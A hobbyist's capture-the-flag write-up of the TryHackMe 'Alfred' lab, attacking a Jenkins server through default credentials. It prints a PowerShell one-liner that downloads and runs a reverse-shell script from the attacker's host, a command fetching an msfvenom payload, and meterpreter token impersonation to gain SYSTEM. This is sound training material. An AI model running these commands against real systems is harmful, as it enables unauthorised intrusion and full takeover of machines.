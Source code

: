 ### THM Alfred

Welcome back.  So another box today.  This one looks to be a Jenkins box.

So, start off just like always, get our nmap going and see what we're looking at.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.75.111     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 10:09 EST
Nmap scan report for 10.10.75.111
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 140.50 seconds
```

And our deeper look.  I know the first couple on this second step I didn't at the `-Pn` tag but this time it kicked back as not hearing me so I had to add it.  Should probably do that going forward.

```
(kali@kali)-$ sudo nmap -A -Pn -p 80,8080 10.10.75.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 10:16 EST
Nmap scan report for 10.10.75.111
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows 8.1 R1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%), Microsoft Windows Embedded Standard 7 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   43.65 ms  10.6.0.1
2   ... 3
4   122.79 ms 10.10.75.111

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.82 seconds
```

Not even going to worry about the 3389 for the moment.  Check the websites and we get a Bruce Wayne memorial page and then on 8080, we get a Jenkins log in screen.  Thought about this one a little too hard at first, looked at the page source, tried checking for Jenkins exploits but then had a lightbulb moment and decided to try the username:password of admin:admin.  And wouldn't ya know it....

![Jeves Admin Dashboard](/Images/THM1Alfred/pic1.png)

After a bit more poking around, I realize, I've seen this before.  On the Jeeves box.  Ha, now, grabbing the user flag is ezpz.

![Reverse Shell Script](/Images/THM1Alfred/pic2.png)

Get my listener going, run the script and viola.

![User flag](/Images/THM1Alfred/pic3.png)

If you're doing the HTB route, and I am cause I ended up getting kinda stuck here on the escalation, going to go that route talks about powershell being the preferred method.

So following those directions, we poke a bit more around the Jenkins interface.  And going through we do find a place where we can kick off some powershell stuff.

`Project` in the middle area and then `configure` loads up an interface.  Going down to the Build section gives me a spot where I can put some commands in.

![Build](/Images/THM1Alfred/pic4.png)

`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`

Put that command in and we use that to get our shell going.

We'll need to first get Invoke-PowerShellTcp.ps1 via a google search and github.  Once we do that, start up the http server via python (`python3 -m http.server 80`), get the nc listener going on the port selected, and then in Jenkins click save and then build now.

That should download the invoke power shell file and kick us back into the user we had before.  But this time, we have a powershell instead of just a limited cmd prompt.

And we're here again.

![Bruce again](/Images/THM1Alfred/pic5.png)

Now that we're here, we need to elevate.  Checking the `whoami /priv` Gives us the following

![whoami /priv](/Images/THM1Alfred/pic6.png)

I can impersonate!  Woot woot!  Hot potato, let's fkin go!!

So we need to get a meterpreter session going.  So we use msfvenom in order to craft our exploit and get our meterpreter session going.

![msfvenom](/Images/THM1Alfred/pic7.png)

Fireup our meterpreter listener...

![handler options](/Images/THM1Alfred/pic8.png)

Make sure that your payload matches from your `msfvenom` or, guess what.  It won't work.  Nevermind how I know that or how frustrating it was figuring that out lol.  Anywho, back to it.

Once that's running, back to our powershell instance.  We use the following commands to get our meterpreter going.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.x.x.x:80/alfred.exe','alfred.exe')"`  
`Start-Process alfred.exe`

In our Metasploit console we get...

![meterpreter session](/Images/THM1Alfred/pic9.png)

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

We find that we can, in fact, impersonate the Builtin\Administrators token.

And so we do that and we are now NT AUTHORITY\SYSTEM!!

If you're following back on THM, go to the filepath listed and grab the root.txt from the System32\config folder with meterpreter's `download` command.

This one was a bit of a pain but it was my own fault.  I left the payload as default and because of such I was getting sessions but they would close immediately.  After I figured that out, it was pretty smooth sailing.  Need to make sure I'm staying on top of that.

Anywho, thank you again for riding along.
